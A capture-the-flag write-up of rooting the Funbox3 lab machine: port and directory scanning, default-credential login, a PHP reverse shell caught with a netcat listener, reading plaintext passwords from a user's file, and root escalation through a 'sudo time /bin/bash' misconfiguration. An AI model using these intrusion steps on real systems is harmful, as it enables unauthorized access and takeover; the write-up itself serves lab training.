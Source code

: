 -> I started by enumerating the machine 
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.177.111

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 10:37 EST
Nmap scan report for 192.168.177.111
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.99 seconds
```
-> I noticed it had an web page, so I look for hidden directories
```
┌──(root㉿kali)-[/home/astra]
└─# dirbuster -u http://192.168.177.111/ -l /usr/share/wordlists/wfuzz/general/common.txt 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /admin/ - 200
Dir found: /secret/ - 200
Dir found: /store/ - 200
File found: /robots.txt - 200
Dir found: /admin/assets/ - 200
Dir found: /admin/assets/plugins/ - 200
File found: /store/admin.php - 200
```
-> I noticed it had an /store/admin.php, it requested an login, so I input admin:admin, and I got in.
-> I go to http://192.168.177.111/store/admin_add.php and try to upload a reverse php shell, first I initiate netcat listening on port 7777.
```
┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777                                    
listening on [any] 7777 ...
```
![Screenshot_3](https://user-images.githubusercontent.com/47869173/220700851-98432f1e-d888-4f75-a197-47a2278cb56e.png)
![Screenshot_4](https://user-images.githubusercontent.com/47869173/220700840-07a332b5-a4a0-4a83-9f75-9dbddb09ee19.png)
![image](https://user-images.githubusercontent.com/47869173/220700845-280277f2-3418-4e48-a798-f49c0219998d.png)

-> After uploading the shell, I find it here http://192.168.177.111/store/bootstrap/img, and I click on the shell, andddd, I'm in!
```
┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777                                    
listening on [any] 7777 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.177.111] 45016
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:59:29 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$  python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@funbox3:/$ 
```
-> I thought it would have the user flag right away, but I was wrong, moving to home directory I found an interesting password file under tony's user
```
www-data@funbox3:/$ ls
ls
bin    dev   lib    libx32      mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
www-data@funbox3:/$ cd home
cd home
www-data@funbox3:/home$ ls
ls
tony
www-data@funbox3:/home$ cd tony
cd tony
www-data@funbox3:/home/tony$ ls
ls
password.txt
www-data@funbox3:/home/tony$ cat password.txt
cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
www-data@funbox3:/home/tony$ 
```
-> After that I login with tony's user and escalate privileges 
```

www-data@funbox3:/home/tony$ ssh -l tony 192.168.177.111

ssh -l tony 192.168.177.111
Could not create directory '/var/www/.ssh'.
The authenticity of host '192.168.177.111 (192.168.177.111)' can't be established.
ECDSA key fingerprint is SHA256:lDqW7tOK4ZCIRla+OSX6KVPDsRFL04w865Q2Q7MR7+k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
tony@192.168.177.111's password: yxcvbnmYYY


tony@funbox3:~$ ls 
ls
password.txt
tony@funbox3:~$ cat pas
cat password.txt 
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
tony@funbox3:~$ sudo -l
sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
tony@funbox3:~$ sudo time /bin/bash
sudo time /bin/bash
root@funbox3:/home/tony# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox3:/home/tony# cd
cd
root@funbox3:~# cd root
cd root
bash: cd: root: No such file or directory
root@funbox3:~# ls
ls
proof.txt  root.flag  snap
root@funbox3:~# cat pro
cat proof.txt 
89940c54a5eff574e10d5f1f0cfe3f5a
```
-> And we got the root flag !
